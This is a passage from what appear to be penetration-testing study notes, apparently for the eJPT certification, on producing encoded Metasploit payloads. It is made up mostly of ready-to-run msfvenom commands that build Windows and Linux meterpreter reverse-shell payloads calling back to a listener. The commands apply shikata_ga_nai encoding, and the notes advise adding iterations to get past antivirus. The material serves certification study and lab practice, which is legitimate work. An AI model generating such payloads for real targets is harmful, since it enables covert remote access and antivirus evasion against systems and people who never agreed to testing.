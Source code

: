 - Excellent encoders are **`cmd/powershell_base64`** and **`x86/shikata_ga_nai`**

#### Windows Payload

- Generate a Win x86 payload and encode it with `shikata_ga_nai`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata_ga_nai -f exe > /home/kali/certs/ejpt/Windows_Payloads/encodedx86.exe
```

![msfvenom shikata_ga_nai Win](assets/image-20230415213830109.png)

- The payload can be encoded as often as desired by increasing the number of iterations.
- The more iterations, the better chances to bypass an Antivirus. Use **`-i`** option.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > /home/kali/certs/ejpt/Windows_Payloads/encodedx86.exe
```

![](assets/image-20230415213941131.png)

#### Linux Payload

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > /home/kali/certs/ejpt/Linux_Payloads/encodedx86    
```

![msfvenom shikata_ga_nai Linux](assets/image-20230415213215234.png)
